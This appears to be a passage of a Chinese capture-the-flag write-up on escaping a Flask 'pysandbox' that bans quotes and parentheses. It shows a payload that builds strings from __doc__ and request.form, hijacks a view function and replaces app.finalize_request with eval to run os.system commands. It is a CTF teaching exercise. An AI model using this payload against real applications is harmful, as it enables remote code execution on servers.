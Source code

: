```


if __name__ == '__main__':
    app.run(host="0.0.0.0")
```

[![](https://i.loli.net/2020/08/13/ZGLSa1HtPJUAfyb.png)](https://i.loli.net/2020/08/13/ZGLSa1HtPJUAfyb.png)

ban了’,”,(,)

pysandbox被非预期了

```
cmd=app.root_path[0:1]%2bapp.name[0:3]
```

设置静态目录就可以直接读flag,我们分析怎么rce



### bypass 引号

没有引号不能引入字符串,我们可以通过`[].__doc__[0]`这种形式拿到部分字符,但是有的字符构造不出来

可以通过request.form[`[].__doc__[0]`],然后POST提交B,既可引入所有需要的字符



### bypass 括号

**思路一**

括号没了，就不能直接执行函数了，但是在 exec中是可以直接访问到程序的上下文的，并且根据刚才对flask执行流程的分析，我们知道每次请求进入和弹出，改变的只有请求上下文和程序上下文，所以我们可以通过对flask流程中调用的函数的劫持，达到执行函数的目标

我们可以把flask中会调用的函数劫持成eval等威胁函数，但是这个函数的参数必须是我们可以控制的，

```
def full_dispatch_request(self):
        self.try_trigger_before_first_request_functions()
        try:
            request_started.send(self)
            rv = self.preprocess_request()
            if rv is None:
                rv = self.dispatch_request()
        except Exception as e:
            rv = self.handle_user_exception(e)
        return self.finalize_request(rv)
```

rv是视图函数的返回值，我们可以通过劫持视图函数控制，我们把finalize_request函数劫持成eval,最后pyload

```
// post 
cmd=app.view_functions[request.form[[].__doc__[1]]]=lambda:request.form[[].__doc__[0]];app.finalize_request=eval&amp;u=security&amp;B=__import__('os').system('ls')
```
